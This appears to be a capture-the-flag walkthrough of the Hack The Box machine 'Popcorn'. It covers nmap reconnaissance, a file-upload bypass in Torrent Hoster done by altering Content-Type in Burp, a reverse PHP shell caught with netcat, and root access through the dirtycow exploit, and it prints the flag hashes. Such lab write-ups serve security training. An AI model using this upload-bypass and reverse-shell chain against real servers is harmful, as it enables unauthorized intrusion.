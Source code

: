 # Popcorn
## Reconnaissance

* Performed TCP scans using Nmap. (Did not include UDP and other TCP scans)
```
sudo nmap -sC -sS -sV -A 10.10.10.6
```
* The results of the Nmap show that TCP port 22 and 80 are open. Target machine OS is Ubuntu Linux.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|WAP|printer|phone|storage-misc|remote management
Running (JUST GUESSING): Linux 2.6.X|2.4.X (93%), AVM embedded (92%), Canon embedded (92%), Google Android 2.X (92%), LG embedded (92%), Epson embedded (91%), Avocent embedded (90%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:avm:fritz%21box_fon_wlan_7240 cpe:/h:canon:imagerunner_advance_c3320i cpe:/h:canon:imagerunner_advance_c3325 cpe:/o:google:android:2.3.5 cpe:/h:lg:n4b2nd4 cpe:/h:epson:wf-2660 cpe:/o:linux:linux_kernel:2.4.20
Aggressive OS guesses: Linux 2.6.17 - 2.6.36 (93%), AVM FRITZ!Box FON WLAN 7240 WAP (92%), Canon imageRUNNER ADVANCE C3320i or C3325 copier (92%), Android 2.3.5 (Linux 2.6) (92%), Linux 2.6.30 (92%), Linux 2.6.32 (92%), Linux 2.6.35 (92%), LG N4B2ND4 NAS device (Linux 2.6) (92%), Epson WF-2660 printer (91%), Linux 2.4.20 (Red Hat 7.2) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* Web enumeration
```
dirbuster for http://10.10.10.6
Threads:30
extensions:php,aspx,asp,txt
not recursive
```
* Webscan Results
![image](https://raw.githubusercontent.com/kookiecrack/images/main/dirbuster.png)

* Access http://10.10.10.6/test.php, which runs phpinfo().
```
System 	Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686
Build Date 	May 2 2011 22:56:18
Server API 	Apache 2.0 Handler
Virtual Directory Support 	disabled
Configuration File (php.ini) Path 	/etc/php5/apache2
Loaded Configuration File 	/etc/php5/apache2/php.ini
Scan this dir for additional .ini files 	/etc/php5/apache2/conf.d
additional .ini files parsed 	/etc/php5/apache2/conf.d/gd.ini, /etc/php5/apache2/conf.d/mysql.ini, /etc/php5/apache2/conf.d/mysqli.ini, /etc/php5/apache2/conf.d/pdo.ini, /etc/php5/apache2/conf.d/pdo_mysql.ini
PHP API 	20041225
PHP Extension 	20060613
Zend Extension 	220060519
Debug Build 	no
Thread Safety 	disabled
Zend Memory Manager 	enabled
IPv6 Support 	enabled
Registered PHP Streams 	https, ftps, compress.zlib, compress.bzip2, php, file, data, http, ftp, zip
Registered Stream Socket Transports 	tcp, udp, unix, udg, ssl, sslv3, sslv2, tls
Registered Stream Filters 	zlib.*, bzip2.*, convert.iconv.*, string.rot13, string.toupper, string.tolower, string.strip_tags, convert.*, consumed 
```

## Delivery & Exploitation

* Access http://10.10.10.6/torrent. Runs Torrent Hoster.
* Tried uploading php file but failed. Uploaded kali linux torrent file instead.
![image](https://raw.githubusercontent.com/kookiecrack/images/main/torrent.png)

* Tried uploading php file for screenshot image but failed. Used burp suite to intercept the HTTP packets.
```
Change 'Content-Type: application/x-php' to 'Content-Type: image/png' and use Repeater to send HTTP POST request.
Upload success!
Access reverse php shell from http://10.10.10.6/torrent/uploads
```
![image](https://raw.githubusercontent.com/kookiecrack/images/main/Burp.png)

* Reverse php web shell obtained

```
kali@kali:~/HTB/popcorn$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 45090
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 18:09:19 up  7:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation
* Google search for linux 2.6.31 local privilege escalation revealed potential 'dirtycow' exploit. 
* Successfully priv esc using [FireFart's exploit](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
* Transferred exploit using wget and python SimpleHTTPServer
```

$ cat user.txt
7f7996604baa821f2644bb0da8fa1cd8
firefart@popcorn:/tmp# whoami
whoami
firefart
firefart@popcorn:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:/tmp# cat /root/root.txt
cat /root/root.txt
9cb1e1150e46be0cc7c0247c7dff7b9a
firefart@popcorn:/tmp# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:33:3f  
          inet addr:10.10.10.6  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:333f/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:333f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1276815 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1171211 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:326685100 (326.6 MB)  TX bytes:286452794 (286.4 MB)
          Interrupt:18 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1288 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1288 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:131698 (131.6 KB)  TX bytes:131698 (131.6 KB)
```
